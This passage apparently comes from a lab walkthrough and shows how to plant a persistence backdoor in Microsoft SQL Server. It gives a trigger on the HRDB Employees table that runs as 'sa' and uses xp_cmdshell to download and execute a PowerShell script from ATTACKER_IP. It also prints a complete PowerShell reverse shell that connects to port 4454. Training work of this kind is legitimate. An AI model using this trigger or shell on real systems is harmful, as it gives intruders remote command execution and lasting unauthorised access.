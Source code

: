 After all of this, we finally configure a trigger. We start by changing to the HRDB database:

```
USE HRDB
```

Our trigger will leverage `xp_cmdshell` to execute Powershell to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` database:

```
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:

```
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

We will need to open two terminals to handle the connections involved in this exploit:

* The trigger will perform the first connection to download and execute `evilscript.ps1`. Our trigger is using port 8000 for that.
* The second connection will be a reverse shell on port 4454 back to our attacker machine.

![task8-shell](./images/task8-shell.png)

With all that ready, let's navigate to http://MACHINE_IP/ and insert an employee into the web application. Since the web application will send an INSERT statement to the database, our TRIGGER will provide us access to the system's console.
